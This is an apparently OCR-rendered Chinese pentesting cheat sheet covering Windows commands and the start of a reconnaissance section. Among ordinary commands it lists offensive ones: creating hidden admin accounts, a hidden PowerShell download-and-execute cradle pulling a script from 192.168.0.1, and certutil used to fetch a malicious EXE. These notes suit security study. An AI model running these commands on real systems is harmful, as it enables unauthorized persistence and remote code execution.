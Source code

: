 #### windows 不同系统
##### win10特殊功能
有linux子系统
#### windows 常见命令




Windows:

```bash
type   显示文本内容         type  1.txt
dir    显示当前目录内容
dir/s/b    查询文件 返回绝对路径，例如   dir/s/b  d:\a.php  查询D盘中a.php文件返回绝对路径     
								     dir c:\ /s /b *.txt  查询c盘中txt文件，并返回绝对路径
/b 显示文件夹或文件的名字
/s 显示指定目录和所有子目录中的文件
* 是通配符，可以代表任意字符串

del 删除文件

ipconfig /all    查看所有ip配置信息
net user         查看用户
net user ad   查看用户权限   ad为用户名
net user  username  password /add     username 和password为你要添加的账号和密码
net user  username$  password  /add     隐藏用户
net user   username    /del   删除  或者username$  删除隐藏
net localgroup administrators username /add         username为要添加管理员组别的用户
net localgroup administrators     查看所有用户包括隐藏
query user || qwinsta    查看管理员是否在线
tasklist /svc | find "Ter"，假如 TermService 的 PID 是 1592。查找远程桌面端口
netstat -ano | find "1592"，查看 TermService 使用的端口，如示例中的 3389
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.1/powershell.txt'))"
powershell 隐藏执行下载脚本
certutil.exe -urlcache -split -f “文件下载地址” d:\test.exe            将文件下载到d盘命名为test.exe
Certutil.exe是作为证书服务的一部分安装的命令行程序。 我们可以使用此工具在目标计算机上执行恶意EXE文件
```



# 信息收集

请重视本节，笔者读了很多关于信息收集的文章，这节尽可能的详细列举出你可以尝试的信息收集对象。对于很多万人挖的漏洞来说，你收集到了别人没有收集过的资产，往往离挖到漏洞就不远了。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210520155239679.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L25nYWRtaW5x,size_16,color_FFFFFF,t_70)
查询域名注册邮箱
通过备案号查询域名
反查注册邮箱#
反查注册人
通过注册人查询到的域名在查询邮箱
通过上一步邮箱去查询域名
## web组成框架信息收集
### 源代码
通研究源代码，能够发现一些敏感目录。源代码获取可以直接右击。也可以利用httrack获取
